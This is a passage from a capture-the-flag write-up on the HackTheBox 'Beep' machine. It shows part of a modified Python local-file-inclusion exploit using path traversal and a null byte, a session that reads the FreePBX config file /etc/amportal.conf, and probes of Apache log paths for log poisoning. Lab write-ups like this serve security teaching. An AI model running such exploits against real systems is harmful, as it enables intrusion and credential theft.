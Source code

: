 ```python
                print('[*] Bye!')
                break
            if len(target_file) == 0:
                continue

            LFI_response = requests.get(f'https://{RHOSTS}{PATH}?{LFI_PARAMETER}={PATH_TRAVERSAL}{target_file}{NULL_BYTE}{OTHER_PARAMETERS}', verify=False)
            LFI_responseText = LFI_response.text.replace('Sorry! Attempt to access restricted file.', '').strip()
            if not LFI_responseText:
                print('[-] File doesn\'t exist...')
                continue

            print(f'[+] File content:\n{LFI_responseText}')
        except KeyboardInterrupt:
            print('\n[*] Bye!')
            break
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Beep)-[2023.08.03|17:06:40(HKT)]
└> python3 37637_modified.py
[*] What's the target host: (i.e: beep.htb, 10.10.10.7) 10.10.10.7
[*] Target file (Type "exit" or hit Ctrl + C to exit)
> /etc/amportal.conf
[+] File content:
# This file is part of FreePBX.
#
#    FreePBX is free software: you can redistribute it and/or modify
[...]
```

Now, what can we do via exploiting LFI?

**We can try to:**

1. Remote Code Execution (RCE) via LFI log poisoning
2. Read configuration files

Let's try LFI log poisoning.

**After fuzzing around, it seems like there's no Apache log file:**
```shell
> /var/log/apache/access.log
[-] File doesn't exist...
> /var/log/apache2/access.log
[-] File doesn't exist...
> /var/log/apache2/error.log
[-] File doesn't exist...
> /var/log/apache/error.log
[-] File doesn't exist...
> /usr/local/apache/log/error_log
[-] File doesn't exist...
> /usr/local/apache2/log/error_log
[-] File doesn't exist...
```

